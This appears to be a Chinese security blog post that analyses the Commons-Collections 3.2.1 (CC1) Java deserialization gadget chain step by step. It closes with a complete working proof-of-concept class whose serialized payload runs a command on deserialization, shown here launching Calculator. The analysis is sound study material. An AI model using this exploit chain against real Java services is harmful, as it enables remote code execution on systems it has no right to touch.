









前言
最近开始来打Java的技术栈，感觉反序列化链的原理跟PHP差不多，借此记录一下Commons-Collections-1链的分析。
影响范围
JDK 8u71以前
配置环境
<dependencies>
<dependency>
<groupId>commons-collections</groupId>
<artifactId>commons-collections</artifactId>
<version>3.2.1</version>
</dependency>
</dependencies>Commons-Collections-1
首先看到Transformer[]这个数组的内容，可以看到第一个参数实例化了ConstantTransformer类并传入Runtime.class类， 其余3个参数都是往InvokerTransformer类中传。
{kind=link}
那么，这个数组中的类究竟是在做什么呢？跟进一下代码，可以发现这里对一个类中的属性做了赋值。 对类中属性赋值肯定就会在其它方法中使用，看到下面的InvokerTransformer#transform()方法。大概可以猜到这里做了一个类似反射的操作。
{kind=link}
上面赋值都是在InvokerTransformer类中实现的，但第一个参数的Runtime.class类该怎么被InvokerTransformer#transform方法中的getClass()获取呢， 这里利用的是ConstantTransformer类将其赋值给iConstant，后面会通过该类中的transform返回。 由于ConstantTransformer继承Transformer接口，所以可以装载到Transformer数组中调用transform方法。
{kind=link}
上述构造的Transformer[]数组传入ChainedTransformer()方法后，可以看到下面的transform()方法可以搭配3次反射构造一个执行类来执行命令。 所以需要一个调用该类中transform()方法的方法。
这里总结一下上面的反射调用链:
1. ConstantTransformer方法将一个传入的参数返回，在上面我们用来调用Runtime.class；
2. InvokerTransformer方法接受三个参数用来反射调用对象中的任意方法；
3. ChainedTransformer方法接受一个TransFormer类型的数组，链式调用每个数组成员的transform方法。
{kind=link}
接下来就需要找可以调用ChainedTransformer#transform方法的方法。 先看到EXP中的LazyMap.decorate()方法，这里实例化了一个LazyMap，赋值给了this.factory。
{kind=link}
可以看到该类中还有一个get()方法调用了transform()方法。 factory即为上面控制的this.factory。 所以，只需要找一个调用LazyMap#get的点(有点类似找PHP的_call方法)。
{kind=link}
首先来到AnnotationInvocationHandler类的构造方法中，这里可以看到对this.memberValues进行了赋值。
{kind=link}
再看到该类中还有invoke方法，这里通过this.memberValues.get()调用了get方法，所以只要在构造方法中将this.memberValues赋值为LazyMap，就可以触发LazyMap#get。 而这个invoke方法在动态代理LazyMap后调用，具体可以调一下ysoserial中反序列化后的mapProxy。完成了上面的利用链后，就需要来看一下如何通过反序列化调用。
{kind=link}
AnnotationInvocationHandler类继承Serializable，所以看到这里的readObject()方法。 这里调用了Map类中的entrySet方法，所以进入到invoke方法拼成了上面的利用链。
{kind=link}
EXP
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;
public class Poc2 {
public static void main(String[] args) throws Exception {
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
new InvokerTransformer("exec", new Class[]{String.class}, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
};
Transformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap, transformerChain);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
construct.setAccessible(true);
InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[]{Map.class}, handler);
handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream oos = new ObjectOutputStream(barr);
oos.writeObject(handler);
oos.close();
System.out.println(barr);
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = (Object) ois.readObject();
}
}There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.